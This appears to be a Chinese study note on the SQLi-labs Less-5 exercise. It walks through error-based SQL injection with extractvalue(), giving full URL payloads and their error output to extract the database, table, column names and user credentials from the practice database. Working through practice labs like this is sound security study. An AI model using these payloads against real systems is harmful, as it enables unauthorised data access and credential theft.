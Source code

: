 ```yaml
---
title: lees5
url: https://www.yuque.com/u29002979/ep2zrx/bwy3pffofh4g8gg8
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1'`有报错

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

**用'闭合**
`?id=1' order by 4--+`提示第4列不存在
`?id=1' order by 3--+` 发现没有了用户和ID的回显，只有”You are ing..",

`?id=1' union select 1,2,3--+`也只显示”You are ing.."，没有显示回显点。
`?id=1'and 1=2--+`没有回显条件为假的错误。

条件正确有回显，条件错误没有回显；
有报错回显， 采取报错注入的方法， <a name="QcX1G"></a>

# 报错注入

**报错注入**的运用前提是需要有数据库错误的显示

```bash
print_r(mysql_error());是能够使用报错的前提。
```

报错常用的三个函数，**extractvalue()**,**updatexml(),floor()**,还有**exp() **

<a name="tKncj"></a>

# 用extractvalue函数进行报错注入

extractvalue(1,1) <a name="FbE6V"></a>

## 查看数据库名称

`?id=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+`
或
`?id=1' or extractvalue(1,concat(0x7e,(select database()),0x7e))--+`

> 显示XPATH syntax error: '~security~'
> XPATH语法错误：“~security~”

<a name="FheLm"></a>

## 查看数据表名称

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))--+`

> 显示XPATH syntax error: '~emails,referers,uagents,users~'
> XPATH语法错误：'~emails，referers，uagents，users~'

<a name="pidlo"></a>

## 查看字段名称

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))--+`

> 显示XPATH syntax error: '**~user\_id,first\_name,last\_name,us**'
> group\_concat()函数**可能放不下所有内容**，可以采用**截取**或者**limit函数**读取

可以看出，爆出的字段名称长度超出了32，所以需要使用substring（）函数每隔32位截取一次，最终拼凑出全部内容。
`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),1,31),0x7e))--+`

> XPATH syntax error: '~user\_id,first\_name,last\_name,us'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),32,31),0x7e))--+`

> XPATH syntax error: '~er,password,avatar,last\_login,f'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),64,31),0x7e))--+`

> XPATH syntax error: '~iled\_login,USER,CURRENT\_CONNECT'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),95,31),0x7e))--+`

> XPATH syntax error: '~IONS,TOTAL\_CONNECTIONS,id,usern'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),126,31),0x7e))--+`

> XPATH syntax error: '~ame,password~'

**拼接：**
user\_id,
first\_name,
last\_name,
user,
password,
avatar,
last\_login,
filed\_login,
USER,
CURRENT\_CONNECT~IONS,
TOTAL\_CONNECTIONS,
id,
username,
password <a name="g9URs"></a>

### 或者只查看当前数据库表字段名称：

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e))--+`

> XPATH syntax error: '~id,username,password~'

<a name="fpIUQ"></a>

## 查看字段内容

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),1,31),0x7e))--+`

> XPATH syntax error: '~Dumb^Dumb,Angelina^I-kill-you,D'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),32,31),0x7e))--+`

> XPATH syntax error: '~ummy^p@ssword,secure^crappy,stu'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),63,31),0x7e))--+`

> XPATH syntax error: '~pid^stupidity,superman^genious,'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),94,31),0x7e))--+`

> XPATH syntax error: '~batman^mob!le,admin^admin,admin'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),125,31),0x7e))--+`

> XPATH syntax error: '~1^admin1,admin2^admin2,admin3^a'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),156,31),0x7e))--+`

> XPATH syntax error: '~dmin3,dhakkan^dumbo,admin4^admi'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),187,31),0x7e))--+`

> XPATH syntax error: '~n4~'

拼接用户^密码：
Dumb^Dumb,
Angelina^I-kill-you,
Dummy^p@ssword,
secure^crappy,
stupid^stupidity,
superman^genious,
batman^mob!le,
admin^admin,
admin1^admin1,
admin2^admin2,
admin3^admin3,
dhakkan^dumbo,
admin4^admin4
